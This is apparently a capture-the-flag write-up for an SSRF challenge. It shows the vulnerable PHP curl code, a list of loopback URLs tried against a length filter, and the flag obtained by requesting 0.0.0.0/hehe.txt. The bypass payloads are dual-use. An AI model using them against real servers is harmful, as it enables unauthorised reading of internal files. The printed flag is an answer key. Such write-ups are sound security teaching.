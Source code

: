 # Overview
SSRF simple filter bypass challenge

The page has a input for us to send http request.

Source code
```php
$x = curl_init($url);
curl_setopt($x, CURLOPT_REDIR_PROTOCOLS, CURLPROTO_HTTP);
curl_setopt($x, CURLOPT_PROTOCOLS, CURLPROTO_HTTP);
curl_setopt($x, CURLOPT_MAXREDIRS, 1);

echo curl_exec($x);
```

# Solution

Website seems to restict the url length. Also, it says flag is in hehe.txt.
The web server denied all `/*.txt` access attempts, so the flag is probably here.

There is a filter in the source code, but the challenge didn't give it to us.
The filter is not a keyword filter, instead, it's a length filter, so we have to try to reduce the url length to minimum or we'll get an error 'Oh no no, url is too long I can't handle it'.

Tried url:
```
localhost/hehe.txt => 18
127.0.0.1/hehe.txt => 18
0/hehe.txt => bad request
0.0.0.0/hehe.txt => 16 => Get Flag
```


dead{Ashiiiibaaa_you_hAv3_Pybass_chA11}